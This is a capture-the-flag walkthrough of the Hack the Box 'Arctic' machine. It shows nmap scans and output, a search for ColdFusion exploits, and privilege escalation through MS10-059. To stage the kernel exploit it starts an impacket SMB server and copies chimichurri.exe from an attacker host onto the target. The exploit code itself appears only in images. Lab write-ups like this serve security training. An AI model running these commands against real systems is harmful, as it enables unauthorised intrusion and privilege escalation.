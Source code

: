 # Hack the Box - Arctic

```CSS
Machine IP: 10.10.10.11 -Microsoft Windows Server 2008 R2 Standard

Vulnerabilities:
- Adobe Cloud Fusion 8
- Windows Kernel Exploit MS10-059
```

## Reconnaisance
```CSS
▶ nmap -Pn -sS -p- 10.10.10.11 -T4 --min-rate 1000 -oN surface.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:09 IST
Nmap scan report for 10.10.10.11
Host is up (0.097s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

```css
▶ nmap -sC -sV -p 135,8500,49154 10.10.10.11 -oN deep.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:11 IST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.11
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.00 seconds
```
---

## Application Mapping

![image](https://user-images.githubusercontent.com/83878909/229273435-61068519-cbd8-4c2c-be4f-6dd3c1a87e15.png)
![image](https://user-images.githubusercontent.com/83878909/229273524-6f7ba081-63f5-4fe6-9b4e-d228ef07ec08.png)
![image](https://user-images.githubusercontent.com/83878909/229273721-64bd7f7c-3270-4b3c-99d7-2cb0791a8343.png)

---

## Search for Exploits
```CSS
▶ searchsploit ColdFusion
```
![image](https://user-images.githubusercontent.com/83878909/229282725-1fd751df-4992-44d4-9c8a-c5d2527867c3.png)

### Modify the Exploit Code
![image](https://user-images.githubusercontent.com/83878909/229283393-0791183b-a971-4d68-a64e-32e7e652d8f8.png)

## User Access
![image](https://user-images.githubusercontent.com/83878909/229284344-ca6b43e3-36da-4815-9b62-4432377668eb.png)

---

## Privilege Escalation
### System Information Gathering
![image](https://user-images.githubusercontent.com/83878909/229284588-f0e96832-3491-4d2b-a027-54795caa0a55.png)

  - The target machine's kernel is vulnerable to **MS10-059**.
  - Exploit [(Link)](https://github.com/egre55/windows-kernel-exploits)

### Exploit
  - Tranfer exploit code to target machine.
```CSS
▶ impacket-smbserver share $(pwd) -smb2support 
```
  - Execute the exploit.
```CSS
C:\ColdFusion8\runtime\bin>copy \\10.10.14.34\share\chimichurri.exe
```
![image](https://user-images.githubusercontent.com/83878909/229303301-4b8fef70-a000-42f7-9b72-2dc8c7af037a.png)

## Root
![image](https://user-images.githubusercontent.com/83878909/229306240-86174770-a64c-4935-a387-669ac07555c3.png)

---
